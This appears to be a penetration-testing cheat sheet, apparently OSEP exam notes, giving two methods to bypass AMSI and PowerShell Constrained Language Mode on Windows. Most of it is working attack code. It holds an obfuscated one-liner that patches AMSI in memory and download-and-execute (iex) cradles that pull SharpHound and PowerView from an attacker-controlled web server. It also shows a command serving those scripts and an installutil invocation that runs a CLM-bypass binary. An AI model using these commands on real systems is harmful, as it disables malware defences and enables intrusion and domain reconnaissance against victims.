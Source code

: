 # AMSI and Constrained Languages Mode Bypass

## Methode 1 - CLM Bypass to AMSI Bypass through text file.

1. Download the Source Code of CLM Bypass and compile it.

<a href="https://github.com/V0lk3n/OSEP-CheatSheet/tree/main/Bypasses/CLM%20Bypass">CLM Bypass</a>

2. Create a text file to bypass AMSI and import/execute the needed PowerShell script or whatever.

Example using SharpHound PowerShell Script and saving the output to log.txt file :
```
$a=[Ref].Assembly.GetTypes();Foreach($b in $a) {if ($b.Name -like "*iUtils") {$c=$b}};$d=$c.GetFields('NonPublic,Static');Foreach($e in $d) {if ($e.Name -like "*Context") {$f=$e}};$g=$f.GetValue($null);[IntPtr]$ptr=$g;[Int32[]]$buf = @(0);[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $ptr, 1)
iex((new-object system.net.webclient).downloadstring('http://192.168.X.X/SharpHound.ps1'))
Get-DomainComputer -Unconstrained >> "C:\Users\Public\log.txt"
```
3. Place the PowerShell script, and AMSI bypass text file in the same location and host them inside a web server.

```bash
┌──(v0lk3n㉿K4l1-L1nux)-[~/]
└─$ ls                                                                                                                              1 ⨯
amsi-bypass-powershell.txt  PowerView.ps1
 
┌──(v0lk3n㉿K4l1-L1nux)-[~/]
└─$ python -m SimpleHTTPServer 80
Serving HTTP on 0.0.0.0 port 80 ...
```

4. Execute the CLM Bypass exe on the target server using installutil to trigger the Uninstall function.

```PowerShell
PS C:\Users\Public> C:\Windows\Microsoft.NET\Framework64\v4.0.30319\installutil.exe /logfile= /LogToConsole=false /U CLM-Bypass.exe
```

5. Read the log.txt file to get the script output.

## Methode 2 - Manually AMSI Bypass.

1. Bypass AMSI

```PowerShell
PS C:\> $a=[Ref].Assembly.GetTypes();Foreach($b in $a) {if ($b.Name -like "*iUtils") {$c=$b}};$d=$c.GetFields('NonPublic,Static');Foreach($e in $d) {if ($e.Name -like "*Context") {$f=$e}};$g=$f.GetValue($null);[IntPtr]$ptr=$g;[Int32[]]$buf = @(0);[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $ptr, 1)
```

2. Load remotely PowerView.ps1 inside memory (iex).

```PowerShell
PS C:\> (new-object system.net.webclient).downloadstring('http://Attacker:port/PowerView.ps1') | iex
```

3. Execute PowerView normally.
